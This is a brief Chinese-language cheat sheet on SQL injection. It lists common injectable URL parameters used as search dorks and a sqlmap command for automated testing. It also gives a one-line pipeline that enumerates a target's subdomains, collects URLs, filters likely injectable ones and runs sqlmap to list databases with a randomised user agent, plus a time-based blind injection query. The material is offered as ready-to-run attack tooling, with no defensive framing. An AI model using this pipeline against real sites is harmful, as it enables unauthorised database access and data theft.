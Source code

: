 # SQL注入

## 快速自动化测试注入

`Sqlmap -u https://url/something/*`



## top 10 Dorks

```
1.?id=
2.?cat=
3.?view=
4.?mode=
5.?tid=
6.?product_id=
7.?act=
8.?item_id=
9.?table=
10.?module=
```



## one-line

```
subfinder -d http://target.com > subs
cat subs | httpx > subs.alive
cat subs.alive | gau_go -b jpg,png,gif > urls.check
gf_go sqli urls.check > urls.sqli
sqlmap -m urls.sqli --dbs --batch --random-agent
```

联动

```
cat subs.alive | gau_go -b jpg,png,gif > urls.check && gf_go sqli urls.check > urls.sqli && sqlmap -m urls.sqli --dbs --batch --random-agent
```



## 测试语句

```
select if( table_name like 'x', benchmark(100000,sha1('_Y000!_')), concat(table_name) ) from information_schema.tables
```

